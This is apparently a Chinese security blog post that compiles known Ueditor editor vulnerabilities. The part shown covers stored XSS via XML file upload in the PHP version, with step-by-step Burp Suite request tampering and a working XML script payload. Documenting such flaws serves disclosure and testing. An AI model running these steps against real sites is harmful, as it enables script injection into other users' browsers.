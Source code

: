 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/mH4GWTVoCel4KHva-I4Elw)<table><tbody><tr><td width="557" valign="top" height="62"><section><strong>声明：</strong>该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。</section><section>请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。</section></td></tr></tbody></table>

**0x01 前言**

这篇文章是在某知识星球里看到的，感觉这位师傅总结的挺好，将网上已公开的 Ueditor 编辑器漏洞都整合在一起了，所以想着通过公众号让更多有需要的人看到，如作者看到这文章认为有不妥，还请联系删除，谢谢！

**0x02 XML 文件上传导致存储型 XSS**

测试版本：php 版 v1.4.3.3

下载地址：https://github.com/fex-team/ueditor

**复现步骤：**

1. 上传一个图片文件

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkibdPXBqGloclnwcDdmYVMZibR0m9Ku0piaZUGmric7twopoFTbwt8Dlphw/640?wx_fmt=png)

2. 然后 buprsuit 抓包拦截

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkgQicfg1BALLCk5aeqVJPCicqyGpxnajkO46nJzp7dZYbfQuLs3uvqGsA/640?wx_fmt=png)

3. 将 uploadimage 类型改为 uploadfile，并修改文件后缀名为 xml, 最后复制上 xml 代码即可

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkoY7RThYQk2g4nZ9m661CrWB3gcd0bAb9jecdfOlxwACicCuAwGLV2mA/640?wx_fmt=png)

4. 即可弹出 xss

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkHK15QtgrvjnAKEshibKAebh78qXgLQ5iaicamnd2pGTr0yCAlJHDicfPmw/640?wx_fmt=png)

‍  

请注意 controller.xxx 的访问路径

```
http://192.168.10.1/ueditor1433/php/controller.php?action=listfile
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkDGwmeTnTchEjaXoPfbvInTTUR8ukuzHN4j1EicC8J3y0O8TdMbMicE7A/640?wx_fmt=png)

**常见的 xml 弹窗 POC：**

弹窗 xss：

```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
alert(1);
</something:script>
</body>
</html>
```
